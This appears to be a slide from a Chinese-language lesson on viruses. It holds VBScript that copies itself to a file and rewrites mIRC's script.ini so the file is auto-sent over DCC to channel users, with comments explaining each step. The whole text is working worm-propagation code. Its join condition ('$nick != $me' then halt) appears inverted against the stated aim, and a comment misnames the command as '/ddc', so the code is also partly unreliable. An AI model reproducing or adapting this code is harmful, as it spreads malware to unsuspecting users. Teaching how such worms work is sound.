

# 通过IRC聊天通道传播
Dim mirc, fso

set fso = CreateObject("Scripting.FileSystemObject")

set mirc = fso.CreateTextFile("C:\mirc\script.ini")        ’创建文件script.ini

fso.CopyFile Wscript.ScriptFullName, "C:\mirc\attachment.vbs", True
’将病毒文件备份到attachment.vbs

mirc.WriteLine "[script] "

mirc.WriteLine "n0 = on 1:join:*.*: { if ( $nick !=$me ) {halt} /dcc send $nick C:\mirc\attachment.vbs }"
’利用命令/ddc send $nick attachment.vbs给通道中的其他用户传送病毒文件

mirc.Close